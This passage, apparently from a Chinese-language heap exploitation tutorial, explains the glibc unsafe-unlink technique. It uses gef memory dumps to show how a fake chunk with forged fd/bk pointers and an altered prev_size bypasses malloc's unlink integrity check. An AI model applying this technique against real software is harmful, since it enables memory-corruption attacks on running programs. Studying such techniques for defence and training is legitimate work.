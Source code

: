 ```c
          }								      \
      }									      \
}
```
在解链操作之前，针对堆块 P 自身的 fd 和 bk 检查了链表的完整性，即判断堆块 P 的前一块 fd 的指针是否指向 P，以及后一块 bk 的指针是否指向 P。

malloc\_size 设置为 0x80，可以分配 small chunk，然后定义 header_size 为 2。申请两块空间，全局指针 `chunk0_ptr` 指向 chunk0，局部指针 `chunk1_ptr` 指向 chunk1：
```
gef➤  p &chunk0_ptr 
$1 = (uint64_t **) 0x601070 <chunk0_ptr>
gef➤  x/gx &chunk0_ptr 
0x601070 <chunk0_ptr>:	0x0000000000602010
gef➤  p &chunk1_ptr 
$2 = (uint64_t **) 0x7fffffffdc60
gef➤  x/gx &chunk1_ptr 
0x7fffffffdc60:	0x00000000006020a0
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000000	0x0000000000000091  <-- chunk 1
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
```

接下来要绕过 `(P->fd->bk != P || P->bk->fd != P) == False` 的检查，这个检查有个缺陷，就是 fd/bk 指针都是通过与 chunk 头部的相对地址来查找的。所以我们可以利用全局指针 `chunk0_ptr` 构造 fake chunk 来绕过它：
```
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000000000  <-- fake chunk P
0x602020:	0x0000000000601058	0x0000000000601060      <-- fd, bk pointer
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000080	0x0000000000000090  <-- chunk 1 <-- prev_size
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
```